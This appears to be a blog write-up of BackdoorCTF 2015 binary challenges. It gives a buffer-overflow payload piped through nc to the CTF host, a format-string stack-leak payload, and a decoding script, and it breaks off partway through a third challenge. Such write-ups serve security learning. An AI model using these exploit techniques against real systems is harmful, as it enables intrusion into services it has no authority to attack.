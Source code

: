```yaml
---
title: BackdoorCTF 2015 -- Binary + Misc
tags:
  - BackdoorCTF
  - CTF
  - Python
  - ruby
  - Pwnable
  - PPC
  - Misc
  - Forensic
categories:
  - write-ups
date: 2015-05-07 17:11:00
---
```

[BackdoorCTF 2015](https://backdoor.sdslabs.co/)  
For me, this is a challenge for CTF beginners. Most of the challenges are easy to solve, although some of them require some **"imagination"**...  

In this writeup, I'll post the solutions of all the binary challenges and the misc challenges that I solved in the CTF.  


# Binary
## echo
Basic BOF. Launch IDA Pro and we can see there's a gets() function in the main function. Just overwrite the return address to control the `eip` jump to the `sample()` function, which cat the flag.  
payload: `python -c 'print "A"*62+"\x4d\x85\x04\x08"' | nc hack.bckdr.in 8002`  

## team
Basic format string. To be honest I don't think this challenge worth 600 pt...  
The flag's on the stack. Just leak it with the format string vulnerability, wrote a script concat the string and bang, CTF  
payload: `%10$p.%11$p.%12$p.........%25$p`

``` python
temp = [35663364,64363031,................................]
flag = ""
for c in temp:
	flag += str(c).decode('hex')[::-1]
print "flag:", flag
```

## forgot
Another binary with the BOF vulnerability. It's a service that ask user to input their name and email address, and check the email address is whether a validate email address or not. 
Inspect the binary with IDA Pro, we found the following line has the BOF vulnerability:
`__isoc99_scanf("%s", &v11); // v11 = [bp-0x74]`
Moreover, there's a for loop with a switch-case in it to check the email address:
```c
for ( i = 0; ; ++i )  {
    v9 = i;
    if ( v9 >= strlen((const char *)&v11) )
      break;
    switch ( v23 )
    {
      case 1:.........
      case 2:.........
    }
}
```